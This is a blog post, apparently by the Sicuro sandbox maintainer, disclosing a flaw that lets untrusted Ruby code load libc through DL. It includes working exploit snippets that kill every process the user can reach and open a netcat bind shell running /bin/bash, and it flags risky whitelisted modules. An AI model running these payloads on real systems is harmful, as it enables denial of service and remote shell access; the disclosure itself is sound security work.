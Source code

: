 ```yaml
---
title: Sicuro's Latest Security Bug
tags: sicuro security bug
layout: post
draft: true
---
```


[Jens Nockert](http://twitter.com/jensnockert) has exposed a rather major security hole in Sicuro.

Under basically any circumstances, Sicuro can be used to execute untrusted code. The demonstrated technique used by Jens was to terminate all processes that can be terminated by the user who the initial `Sicuro#eval` call was made under. I believe it may also be possible to perform some 

# The main problem

It appears that attempts at making it more efficient have actually left Sicuro wide open to abuse. There was an attempt to make it lazily load trusted components, and that seems to have opened up a bug letting you `require` anything in the stdlib, including DL. DL is used for loading shared objects and calling functions in them.

The following is the relevant part of the code for lazily loading trusted components. You can view it in context in [lib/sicuro/base.rb](https://github.com/duckinator/sicuro/blob/761e955fbbba07638d69bc62159199cdf0716a7d/lib/sicuro/base.rb#L254-256), lines 254 through 256.

<code>
# Without Gem we won't require unresolved gems, therefore we restore the original require.
# This allows us to lazy-require other trusted components from the same $LOAD_PATH.
::Kernel.module_eval { alias require gem_original_require }
</code>

Following is a tidied up version of the code that exposed the bug.

<code>
require 'dl'
require 'dl/import'

module Libc
  extend DL::Importer
  dlload '/lib/libc.so.6'
  extern 'int kill(int, int)'
end

Libc.kill(0, 9)
</code>

Changing `Libc.kill(0, 9)` to `Libc.kill(-1, 9)` will terminate _all processes the user who made the call to `Sicuro.eval` can terminate._

Here is similar code that will allow you to execute arbitrary shell code:

<code>
require 'dl'
require 'dl/import'

module Libc
  extend DL::Importer
  dlload '/lib/libc.so.6'
  extern 'int system(const char*)'
end

Libgc.system('nc -lp 1337 -e /bin/bash &amp;')
</code>

Congratulations, you now can run `netcat $IP 1337` to connect.

There's a video at the bottom, but odds are it's entirely unintelligible, so you can [go directly to the video](/assets/sicuro-untrusted-code-execution-bug.ogv).

It may also be possible to escalate privileges using this.

# The small problem

There's always something hiding, right? That little thing you find when hunting another bug. This one happened to be that `GC`, `Signal`, and `ObjectSpace` were whitelisted. This isn't exactly good.

At the very least, `GC.disable` could make it use too much memory, causing instability, and `Signal.trap` could be used to handle signals used to terminate the process -- and ignore them. I'm not entirely sure what `ObjectSpace` can be used for, but I do not know what it does, so I do not like it being whitelisted. I've also been told `ObjectSpace` is "dangerous." I may look into this later.

`GC`, `Signal`, and `ObjectSpace` will not be whitelisted as of the next version.

# Conclusion

While removing things from the whitelist was beyond trivial, it appears fixing the code execution problem is proving immensely difficult. I am not sure I will be able to do it and retain all current functionality.

I highly recommend that, once the next version is released, everyone upgrade immediately. This is a major security hole, and allows execution of any untrusted code that can be done through a shared library. This includes calls to `execve()` and related functions, as mentioned above.

<video style="width: 100%; max-width: 798px;" controls="controls" src="/assets/sicuro-untrusted-code-execution-bug.ogv"></video>
